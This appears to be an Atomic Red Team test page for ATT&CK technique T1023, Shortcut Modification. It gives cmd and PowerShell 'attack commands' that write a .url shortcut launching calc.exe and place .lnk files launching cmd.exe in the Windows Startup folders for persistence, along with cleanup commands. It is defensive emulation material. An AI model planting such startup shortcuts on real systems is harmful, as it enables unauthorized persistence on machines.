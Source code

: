 # T1023 - Shortcut Modification

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1023)

<blockquote>Shortcuts or symbolic links are ways of referencing other files or programs that will be opened or executed when the shortcut is clicked or executed by a system startup process. Adversaries could use shortcuts to execute their tools for persistence. They may create a new shortcut as a means of indirection that may use [Masquerading](https://attack.mitre.org/techniques/T1036) to look like a legitimate program. Adversaries could also edit the target path or entirely replace an existing shortcut so their tools will be executed instead of the intended legitimate program.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Shortcut Modification](#atomic-test-1---shortcut-modification)

- [Atomic Test #2 - Create shortcut to cmd in startup folders](#atomic-test-2---create-shortcut-to-cmd-in-startup-folders)

<br/>

## Atomic Test #1 - Shortcut Modification

This test to simulate shortcut modification and then execute. example shortcut (*.lnk , .url) strings check with
powershell;
gci -path "C:\Users" -recurse -include *.url -ea SilentlyContinue | Select-String -Pattern "exe" | FL.
Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| shortcut_file_path | shortcut modified and execute | path | %temp%&#92;T1023_modified_shortcut.url|

#### Attack Commands: Run with `command_prompt`!

```cmd
echo [InternetShortcut] > #{shortcut_file_path}
echo URL=C:\windows\system32\calc.exe >> #{shortcut_file_path}
#{shortcut_file_path}
```

#### Cleanup Commands:

```cmd
del -f #{shortcut_file_path} >nul 2>&1
```

<br/>
<br/>

## Atomic Test #2 - Create shortcut to cmd in startup folders

LNK file to launch CMD placed in startup folder. Upon execution, open File Explorer and browse to "
%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
to view the new shortcut.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()

$Shell = New-Object -ComObject ("WScript.Shell")
$ShortCut = $Shell.CreateShortcut("$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk")
$ShortCut.TargetPath="cmd.exe"
$ShortCut.WorkingDirectory = "C:\Windows\System32";
$ShortCut.WindowStyle = 1;
$ShortCut.Description = "T1023.";
$ShortCut.Save()
```

#### Cleanup Commands:

```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
Remove-Item "$env:ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\T1023.lnk" -ErrorAction Ignore
```

<br/>
